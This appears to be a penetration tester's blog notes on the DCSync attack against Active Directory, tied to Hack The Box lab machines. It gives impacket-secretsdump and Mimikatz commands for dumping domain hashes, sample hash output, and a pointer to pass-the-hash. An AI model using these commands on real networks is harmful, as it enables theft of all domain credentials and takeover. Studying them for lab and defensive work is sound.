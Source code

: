 ```yaml
---
description: >-
  DCSync Attack
title: DCSync Attack              # Add title here
date: 2023-04-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, dcsync, impacket-secretsdump]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### DCSync Attack
Another way to achieve persistence in an Active Directory infrastructure is to steal the password hashes for all administrative users in the domain.

To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user. We could also steal a copy of the NTDS.dit database file, which is a copy of all Active Directory accounts stored on the hard drive, similar to the SAM database used for local accounts.

While these methods might work fine, they leave an access trail and may require us to upload tools. An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation.

Luckily for us, the domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user who is a member of the Domain Admins group, it will succeed.

### Impacket-secretsdump
```bash
impacket-secretsdump htb.local/mrlky:'Football#7'@10.10.10.103
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:dcsync)
### Mimikatz
Upload the mimikatz executable to the machine first, then execute:
```bash
privilege::debug
token::elevate
lsadump::dcsync /all /csv
```

### Mimikatz Administrator
```bash
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'corp.com' will be the domain
[DC] 'DC01.corp.com' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

\*\* SAM ACCOUNT \*\*

SAM Username         : Administrator
User Principal Name  : Administrator@corp.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 05/02/2018 19.33.10
Object Security ID   : S-1-5-21-1602875587-2787523311-2599479668-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: e2b475c11da2a0748290d87aa966c327
  ntlm- 0: e2b475c11da2a0748290d87aa966c327
  lm  - 0: 913b84377b5cb6d210ca519826e7b5f5

Supplemental Credentials:
\* Primary:NTLM-Strong-NTOWF \*
  Random Value : f62e88f00dff79bc79f8bad31b3ffa7d

\* Primary:Kerberos-Newer-Keys \*
  Default Salt : CORP.COMAdministrator
  Default Iterations : 4096
  Credentials
  aes256_hmac (4096): 4c6300b908619dc7a0788da81ae5903c2c97c5160d0d9bed85cfd5af02dabf01
  aes128_hmac (4096): 85b66d5482fc19858dadd07f1d9b818a
  des_cbc_md5 (4096): 021c6df8bf07834a

\* Primary:Kerberos \*
  Default Salt : CORP.COMAdministrator
  Credentials
    des_cbc_md5       : 021c6df8bf07834a

\* Packages \*
  NTLM-Strong-NTOWF

\* Primary:WDigest \*
  01  4ec8821bb09675db670e66998d2161bf
  02  3c9be2ff39c36efd2f84b63aa656d09a
  03  2cf1734936287692601b7e36fc01e2d7
  04  4ec8821bb09675db670e66998d2161bf
  05  3c9be2ff39c36efd2f84b63aa656d09a
...
```
Examples:
[[Sauna#^dd4d7f]]
.
Finally you can use the `Hash NTLM` to login with [Pass The Hash](https://shuciran.github.io/posts/Pass-The-Hash/) technique.
